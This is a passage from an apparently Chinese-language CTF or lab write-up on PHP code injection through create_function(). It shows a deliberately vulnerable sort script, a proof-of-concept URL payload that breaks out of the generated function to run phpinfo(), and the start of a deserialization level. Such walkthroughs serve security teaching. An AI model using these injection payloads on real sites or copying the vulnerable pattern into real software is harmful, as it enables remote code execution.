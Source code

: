 在这里简单介绍一下create_funtion()函数:

功能：根据传递的参数创建匿名函数，并为其返回唯一名称。

语法：

```php
create_function(string $args,string $code)
string $args 声明的函数变量部分
  
string $code 执行的方法代码部分
```

代码注入案例：

```php
<?php
error_reporting(0);
$sort_by = $_GET['sort_by'];
$sorter = 'strnatcasecmp';
$databases=array('1234','4321');
$sort_function = ' return 1 * ' . $sorter . '($a["' . $sort_by . '"], $b["' . $sort_by . '"]);';
usort($databases, create_function('$a, $b', $sort_function));
?>
```

poc 为[http://localhost/test1.php?sort_by=%27%22\]);}phpinfo();/*](http://localhost/test1.php?sort_by='"]);}phpinfo();/*)

还原实际组合过程：

```php
$sort_function = ' return 1 * ' . $sorter . '($a["' . $sort_by '"]);}phpinfo();/*
```

匿名函数实际执行的是：

```php
function niming($a,$b){
return 1 * ' . $sorter . '($a["' . $sort_by '"]);}phpinfo();/*
}
```

回车换行整理一下：

```php
function niming($a,$b){
return 1 * ' . $sorter . '($a["' . $sort_by '"]);
}
phpinfo();/*
}
```

#### 5.第五关

第五关的代码为：

```php
<?php
    class secret{
        var $file='index.php';

        public function __construct($file){
            $this->file=$file;
        }

        function __destruct(){
            include_once($this->file);
            echo $flag;
        }

        function __wakeup(){
```